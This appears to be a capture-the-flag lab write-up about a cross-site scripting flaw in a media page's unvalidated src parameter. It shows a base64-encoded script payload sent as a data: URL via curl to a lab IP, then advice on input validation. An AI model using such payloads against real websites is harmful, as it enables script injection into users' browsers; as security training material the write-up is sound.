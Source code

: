 # XSS Media Tag

In the home page there's only one image with a link. If you click this link you'll be redirected to the media page. The media page url accepts a src parameter that isn't validated by the server.

## Steps

* Open your terminal and run
```bash
        cd ./Resources
        
	py base64Encode.py "<script>alert('Game Over');</script>"
	#Above will output "Encoded value of str <script>alert('Game Over');</script> -> PHNjcmlwdD5hbGVydCgnR2FtZSBPdmVyJyk7PC9zY3JpcHQ+" 
```
* Now that we have our malicious content encrypted we can send it, run
```bash
	curl "http://192.168.56.102/?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgnR2FtZSBPdmVyJyk7PC9zY3JpcHQ+" | grep "flag"
```

## Ways to secure
* The best way to handle this is to validate and sanitize client input.
* Fetch images from their src directory.
